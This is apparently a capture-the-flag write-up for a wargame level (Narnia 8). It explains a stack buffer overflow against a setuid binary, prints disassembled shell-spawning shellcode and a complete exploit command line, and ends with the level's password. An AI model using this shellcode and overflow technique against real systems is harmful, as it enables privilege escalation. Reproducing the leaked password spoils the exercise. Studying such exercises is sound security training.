 Now we can write in bok buffer, but overflowing it will overwrite blah pointer.
This overwrite has a side effect, in fact if we are not careful enough, the `base pointer` of blah will be `SOMESHITTYHEX`.

After filling bok buffer, we have to put argv[1] address in order to not change the byte to byte copy, letting the cycle continue.
After that we have  ebp and RA that's our goal!

The shellcode is placed above the RA in the stack region since the NX bit is disabled.
I placed `/bin/sh` string as well after the shellcode.

In order to make some attempts I executed a copy of the suid program in `/tmp/rr` with the aim to leak some addresses.

After some attempts the attack worked!

Here is the shellcode:
```assembly
08048054 <_start>:
 8048054:	31 db                	xor    %ebx,%ebx
 8048056:	31 c9                	xor    %ecx,%ecx
 8048058:	31 c0                	xor    %eax,%eax
 804805a:	31 ff                	xor    %edi,%edi
 804805c:	66 bb b5 36          	mov    $0x36b9,%bx
 8048060:	66 b9 b5 36          	mov    $0x36b9,%cx
 8048064:	b0 46                	mov    $0x46,%al
 8048066:	cd 80                	int    $0x80
 8048068:	31 d2                	xor    %edx,%edx
 804806a:	31 db                	xor    %ebx,%ebx
 804806c:	31 c9                	xor    %ecx,%ecx
 804806e:	31 c0                	xor    %eax,%eax
 8048070:	b0 0b                	mov    $0x0b,%al
 8048072:	bb cc ff ff ff       	mov    $0xffffffcc,%ebx   # I change this value with the address of "/bin/sh" passed as argument - you can see it in the core dump generated by the copy of suid program
 8048077:	cd 80                	int    $0x80
```
```bash
$ ./narnia8 $(python -c 'print "a"*20+"\x85\xd7\xff\xff"+"\xb5\xd7\xff\xff"*4+"\xb5\xd7\xff\xff"+"\x90"*20+"\x31\xdb\x31\xc9\x31\xc0\x31\xff\x66\xbb\xb9\x36\x66\xb9\xb9\x36\xb0\x46\xcd\x80\x31\xc9\x31\xd2\x31\xff\x31\xc0\xb0\x0b\xbb\x12\xd8\xff\xff\xcd\x80"+"b"*18+"\x70\xd7\xff\xff"+"//////////////////////bin/sh"')
```
##### PASS=eiL5fealae